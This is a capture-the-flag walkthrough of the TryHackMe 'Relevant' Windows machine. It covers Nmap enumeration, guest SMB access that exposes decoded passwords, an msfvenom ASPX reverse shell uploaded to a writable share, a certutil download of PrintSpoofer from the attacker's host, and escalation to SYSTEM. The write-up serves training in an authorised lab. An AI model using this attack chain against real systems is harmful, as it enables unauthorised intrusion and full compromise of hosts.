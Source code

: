 ### Name: Relevant
### Ip: 10.10.28.224
### Difficulty: Medium

----------------------------------------------------------------

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

    - User.txt
    - Root.txt

Additionally, the client has provided the following scope allowances:

    - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
    - Locate and note all vulnerabilities found
    - Submit the flags discovered to the dashboard
    - Only the IP address assigned to your machine is in scope
    - Find and report ALL vulnerabilities (yes, there is more than one path to root)

--------------------------------------------------------------------------    

![10524728b2b462e8d164efe4e67ed087.jpeg](../assets/relevant_assets/10524728b2b462e8d164efe4e67ed087.jpeg)

### Enumeration

I'll begin enumerating this machine by scanning all TCP ports using Nmap:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -p- --min-rate 10000 10.10.28.224    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:03 CDT
Nmap scan report for 10.10.28.224
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds
```

Let's enumerate a bit deeper by also using the `-sC` and `-sV` flags to use default scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ sudo nmap -sC -sV 10.10.28.224 -p 80,135,139,445,3389,49663
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 14:05 CDT
Nmap scan report for 10.10.28.224
Host is up (0.18s latency).

PORT      STATE SERVICE        VERSION
80/tcp    open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server?
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-06-27T18:56:40
|_Not valid after:  2023-12-27T18:56:40
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-28T19:07:20+00:00
|_ssl-date: 2023-06-28T19:07:59+00:00; 0s from scanner time.
49663/tcp open  http           Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h24m00s, deviation: 3h07m51s, median: 0s
| smb2-time: 
|   date: 2023-06-28T19:07:22
|_  start_date: 2023-06-28T18:57:35
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-28T12:07:21-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.02 seconds
```

Navigating to the site on port 80 we find an IIS default landing page:

landing_page.png

Before enumerating http let's take a look at the SMB shares to see if we can find anything interesting.

Using CrackMapExec we see that we have read and write access to the nt4wrksv share using the guest account with null for a password. Let's use SMBClient to further enumerate:

smb_passwords.png

Ok interesting, looks like we've found a couple passwords. This appears to be Base64, so lets try to decode these:

b64_passwds.png

So it appears we now have two sets of credentials:

```text
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
### Exploitation 

Before leaving SMB, I recall that we had both read and write permissions to the share. Let's try upload a reverse shell to see if we can get an easy win and get access to the box.

I'll create a reverse shell using msfvenom:

```text
┌──(ryan㉿kali)-[~/THM/Relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.61.45 LPORT=443 -a x64 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3420 bytes
```

And while still logged into the SMB share I can simply issue the `put` command to uplaod my shell.

`put shell.aspx`

I set up a NetCat listener and turned my attention to the browser to see where my shell may have been uploaded. 

I had no luck on port 80 at http://10.10.28.224/nt4wrksv/shell.aspx

shell_fail.png

But looking back over my nmap scans I noticed the box had another http port open. I was able to succesfully trigger my shell by navigating to http://10.10.28.224:49663/nt4wrksv/shell.aspx

Which called back to my nc listener and gave me a working shell:

first_shell.png

And from here I can grab the user.txt flag from Bob's desktop:

user_flag.png

Let's now turn our attention to escalating privileges to administrator!

### Privilege Escalation

Running `whoami /all` shows me that SeImpersonatePrivilege is enabled on the machine.

impersonate.png

Nice! This should make for an easy privilege escalation. Because this is a Windows 10 box, let's try using PrintSpoofer.exe to escalate to the Administrator user.

Firstly I'll set up a Python webserver in the directory I keep PrinteSpoofer in:

And then afterwards I'll use CertUtil to donwload the file onto the target:

```text
C:\Users\Bob\Desktop>certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
certutil -urlcache -split -f "http://10.6.61.45/PrintSpoofer.exe"
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

We can also verify a code 200 from the Python server:

```text
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.28.224 - - [28/Jun/2023 14:45:41] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
10.10.28.224 - - [28/Jun/2023 14:45:44] "GET /PrintSpoofer.exe HTTP/1.1" 200 -
```

Once PrintSpoofer is on the target I simply execute:

```text
C:\Users\Bob\Desktop>PrintSpoofer.exe -i -c cmd
```
And I can verify that the exploit worked and am now nt authoirty\system on the machine:

system.png

All that's left to do now is to grab the root.txt flag in the Administrator's Desktop:

root_flag.png

And that's that! Thanks for following along!

-Ryan

------------------------------------------------------------------
